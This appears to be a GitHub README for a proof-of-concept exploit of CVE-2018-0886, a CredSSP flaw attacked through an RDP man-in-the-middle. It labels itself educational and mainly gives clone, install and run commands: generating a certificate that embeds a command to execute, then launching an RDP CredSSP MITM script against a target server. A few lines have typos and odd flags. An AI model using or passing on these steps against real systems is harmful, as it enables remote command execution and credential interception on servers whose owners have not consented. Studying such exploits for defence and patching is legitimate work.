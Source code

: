 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the file.. 


$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git rdpy
$ credssp/install/install.sh 
$ python rdpy/setup.py install

# Running the exploit 

$ Export a certificate suitable for Server Authentication from any domain
$ python credssp/bin/gen_cmd.py -c ExportedCert -c exploitc.pem -k exploitk.pem CMD to generate a suitable certificate for the CommandToRun
$ python /usr/local/bin/rdpy-rdpcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer


